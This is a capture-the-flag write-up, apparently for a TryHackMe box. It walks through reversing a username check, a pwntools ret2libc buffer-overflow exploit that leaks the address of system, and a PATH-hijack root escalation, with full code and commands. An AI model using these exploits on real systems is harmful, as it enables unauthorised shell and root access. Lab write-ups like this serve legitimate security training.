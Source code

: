 Target ip : 10.10.111.138
my ip       : 10.2.3.159

2 binaries 
```
angel_A
angel_B
```

---

angel_A :
```C
	wchar32 username[0x9] = "kym~humr", 0
	
	int32_t main(int32_t argc, char** argv, char** envp)
    {
        int32_t argc_1 = argc;
        char** argv_1 = argv;
        
        if (ptrace(PTRACE_TRACEME, 0, 1, 0) == -1)
        {
            printf("Using debuggers? Here is tutoria…");
            exit(1);
        }
        
        printf("\x1b[36m\nSay my username >> \x1b…");
        void buf;
        fgets(&buf, 9, __TMC_END__);
        int32_t var_c = 0;
        
        while (true)
        {
            if (var_c > 7)
            {
                puts("\x1b[32m\nCorrect! That is my na…");
                return 0;
            }
            
            if (username[(int64_t)var_c] != (int32_t)(*(uint8_t*)(&buf + (int64_t)var_c) ^ 4) + 8)
                break;
            
            var_c += 1;
        }
        
        puts("\x1b[31m\nThat is not my usernam…");
        exit(0);
        /* no return */
    }

```

Let's write a little prgram in C that invert this algorithm to get the username :
```C
int main()
{
	char *username = "kym~humr";
	char answer[8];
	
	int i = 0;
	while (i < 8)
	{
		answer[i] = (username[i] - 8) ^ 4;
		i++;
	}

	printf("Username is : %s\n", answer);
	return 0;
}
```

And we got the username : guardian

---
Let's see the angel_B file now,

```bash
file angel_B

angel_B: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=Xd_LgpWItJBNJmN63lQy/oWW_4FYae77KCrbbrcIX/2pmyS7gUszdXBsoOAYWo/PyEjnQ2VYI7PIdiOmGXg, not stripped

```
It's a Go program

The flag can be found in the decompiler : GOg0esGrrr!

We can now connect in SSH to ip address of the target.

---
```bash
guardian@heaven:~$ ls
guardian_flag.txt  pwn_me

```

We can see that pwn_me belongs to the user binexgod, the one we want to become. Let's try to abuse the binary to execute a shell from it and become binexgod.

---
That's how the code looks in pseudo C
```C
    char* vuln()
    {
        puts("Binexgod said he want to make th…");
        printf("System is at: %lp\n", system);
        void buf;
        return gets(&buf);
    }


    int32_t main(int32_t argc, char** argv, char** envp)
    {
        void* const __return_addr_1 = __return_addr;
        int32_t* var_14 = &argc;
        uid_t euid = getuid();
        setreuid(geteuid(), euid);
        vuln();
        return 0;
    }


	(ASLR Activated)
```

Lets find the offset with gdb and cyclic :
```bash
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Put this into a file : /tmp/inp

$ gdb -q ./pwm_me
$ r < /tmp/inp
Cannot access memory at address 0x61616169

cyclic -l 0x61616169
32
```

The offset size is 32 bytes.

---

Let's write a python exploit :
```python
from pwn import *

elf = context.binary = ELF('./pwn_me')
libc = elf.libc

p = process()
p.recvuntil('at: ')

system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success('LIBS base: {}'.format(hex(libc.address)))

binsh = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(binsh)

p.sendline(rop.chain())
  
p.interactive()
```

Grace a fonction vuln() l'addresse de la fonction system est fuite. On peut donc EN RUNTIME connaitre la base de notre libc grace a
```
libc.address = system_leak - libc.sym['system']
```

Ensuite gets n'est pas proteger et permet d'ecrire sur l'addresse de retour afin de rediriger le programme vers notre chaine ROP.
```
[ buf (32 octets de padding) ]
+-------------------------+
| Adresse : pop rdi; ret  |  ← écrasée sur la sauvegarde du RIP
+-------------------------+
| Valeur : binsh (RDI)    |  ← sera poppée dans RDI
+-------------------------+
| Adresse : system        |  ← retour qui va appeler system
+-------------------------+
| (Eventuellement un "fake" return pour system) |
+-------------------------+

```

The exploit gives us a shell as binexgod :
```bash
Flag : THM{b1n3xg0d_pwn3d}
```

----
This the code to exploit :
```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
	gid_t gid;
	uid_t uid;
	gid = getegid();
	uid = geteuid();

	setresgid(gid, gid, gid);
	setresuid(uid, uid, uid);

	system("/usr/bin/env echo Get out of heaven lol");
}

```

Let's create a C file :
```c
#include<stdio.h>
#include<stdlib.h>

int main()
{
	system("/bin/bash");
}
```

Let's compile it and move it in /tmp:
```bash
gcc -o echo echo.c
mv echo /tmp
```

Let's export /tmp is the PATH environment variable
```bash
export PATH=/tmp:$PATH
```

Now let's run vuln  and get a root shell !
```
Root flag : THM{r00t_of_th3_he4v3n}
```


